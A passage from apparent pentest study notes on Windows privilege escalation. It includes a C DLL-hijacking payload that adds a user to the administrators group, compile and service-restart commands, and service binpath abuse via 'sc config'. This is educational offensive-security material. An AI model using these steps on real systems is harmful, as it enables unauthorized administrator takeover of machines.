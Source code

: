 	- Result -> is -> NAME NOT FOUND.
	- Apply
- After find the .dll file which is writable or .dll which is not recognized. Note down the name of dll file and the path..
- Create a Payload in C. Example: hijackme.dll
```c
	# include <windows.h>

	BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
		if (dwReason == DLL_PROCESS_ATTACH) {
			system("cmd.exe /k net localgroup administrators user /add");
			ExitProcess(0);
		}
		return TRUE;
	}
```
- Compile the program.
	- `x86_64-w64-mingw32-gcc hijackme.c -shared -o hijackme.dll`
- Deliver the file to windows machine and replace the dll file.
- Restart the dll service
	- `sc stop dllsvc & sc start dllsvc`
- `net localgroup administrators` - We now have new user added on administrative group.
- For more DLL Hijacking: https://steflan-security.com/windows-privilege-escalation-dll-hijacking/
- Even More: https://systemweakness.com/windows-privilege-escalation-hijacking-dlls-c2f26168bf37

## Escalation Path: Service Permissions (Paths)
**Escalations via Binary Paths**
- Detection
	- Powerup
		- `. .\PowerUp.ps1`
		- `Invoke-AllChecks`
  - Manual
  	- `accesschk64.exe -uwcv Everyone *`
  	- After finding a service. Example: daclsvc
  		- `accesschk64.exe -wuvc daclsvc`
  		- See if we have `SERVICE_CHANGE_CONFIG` permission.
- Exploitation
  - Query the service
  	- `sc qc daclsvc`
  - We can see the binary path name. 
  - Since we have SERVICE_CHANGE_CONFIG permission, lets change it.
  - `sc config daclsvc binpath= "net localgroup administrators user /add`
  - `sc start daclsvc`
  - `net localgroup administrators`

## Escalation Path: CVE-2019-1388
- More Info: https://justinsaechao23.medium.com/cve-2019-1388-windows-certificate-dialog-elevation-of-privilege-4d247df5b4d7
- More Info: https://github.com/nobodyatall648/CVE-2019-1388

## References
- https://infosecwriteups.com/privilege-escalation-in-windows-380bee3a2842
- https://academy.tcm-sec.com/